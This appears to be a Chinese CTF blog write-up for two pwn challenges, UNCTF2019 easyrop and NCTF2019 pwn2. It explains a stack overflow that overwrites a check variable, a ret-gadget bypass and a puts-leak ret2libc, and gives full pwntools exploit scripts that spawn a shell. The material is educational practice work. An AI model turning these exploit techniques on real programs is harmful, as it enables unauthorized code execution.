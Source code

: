 ```yaml
---
title: UNCTF2019_easyrop和NCTF2019_pwn2
date: 2020-02-14 12:34:59
tags: CTF-pwn
---
```

前段时间做了个安恒新春赛的rop题，<!--more-->然后发现它就是UNCTF2019的easyrop，顺带找到了同类型的NCTF2019的一个题也做了  
# easyrop  
IDA，checksec，file三连  
![](easyrop_1.png)  
![](easyrop_2.png)  
![](easyrop_3.png)  
![](easyrop_4.png)  
可以看到main函数首先有一个if条件检测需要变量v2等于0x66666666，即可通过检测进入函数sub_804853D()，函数sub_804853D()中存在溢出，那么我们需要把v2变量覆盖为0x66666666即可执行if条件中的函数触发溢出，buf距离ebp的距离是0x2C，变量v2距离ebp的距离是0xC，那么我们只需要从buf开始填充0x2C-0xC个垃圾字符，再跟一个0x66666666，就可以成功覆盖v2变量  
然后还有sub_804853D()函数中有一个返回地址的检测，返回地址不能大于0x8050000，那我们直接用ret这个gadget当返回地址绕过检测，即可返回去执行system函数  
exp:  
```python  
from pwn import*
from LibcSearcher import *
context.log_level = 'debug'
#p=remote("183.129.189.60",10011)
p=process("./pwn2")
elf = ELF("./pwn2")
ret = 0x0804839e
p.recvuntil("CTFer!\n")
payload = "\x00"*0x20 + p32(0x66666666)
p.sendline(payload)
p.recvuntil("name?\n")
payload2 = "\x00"*0x14
payload2 += p32(elf.plt['puts']) + p32(0x8048592) + p32(elf.got['puts']) 
p.send(payload2)
puts_addr = u32(p.recv(4))
log.success("puts_addr = " + hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
offset = puts_addr - libc.dump('puts')
sys_addr = offset + libc.dump('system')
log.success("sys_addr:" + hex(sys_addr))
binsh_addr = offset + libc.dump('str_bin_sh')
log.success("binsh_addr:" + hex(binsh_addr))
payload3 = "\x00"*0x14 + p32(ret) + p32(sys_addr) + p32(0xdeadbeef) + p32(binsh_addr)
p.recvuntil("CTFer!\n")
payload = "\x00"*0x20 + p32(0x66666666)
p.send(payload)
#p.recvuntil("name?\n")
p.recv()
p.send(payload3)
p.interactive()
```  
通过这题还是学到了东西的，知道了覆盖变量的方法  
# pwnme_100_year_II
此题是南邮CTF的简单题，但是当时没有做出来，和上面那题有点类似  
![](pwn2_1.png)  
![](pwn2_2.png)  
main函数存在两处检测，检测通不过即执行sub_40087C()退出程序，只要绕过这两处检测成功执行后门函数sub_400861()获得shell  
首先是一个字符串比较，只要s1中存在'yes'即为0，即可通过检测。然后是一个数值检测，dword_6010C0等于0x66666666即为0，可通过检测，最终执行sub_400861()  
两个变量都可在IDA中查看其地址和相对位置  
![](pwn2_3.png)  
可以看到s1和dword_6010C0变量相差0x10，那么只要把s1填满0x10个字节即可到dword_6010C0去进行覆盖  
EXP:  
```python  
#coding=utf-8
from pwn import*
context.log_level = 'debug'
io=process("./pwn_me_1")
elf=ELF("./pwn_me_1")
io.recvuntil("?\n")
io.send("yes".ljust(0x10,"\x00") + p64(0x66666666))
io.interactive()
```  
这两题虽然简单，但是对于我来说也是学到了新姿势，以前压根不会覆盖变量绕过这种简单的检测  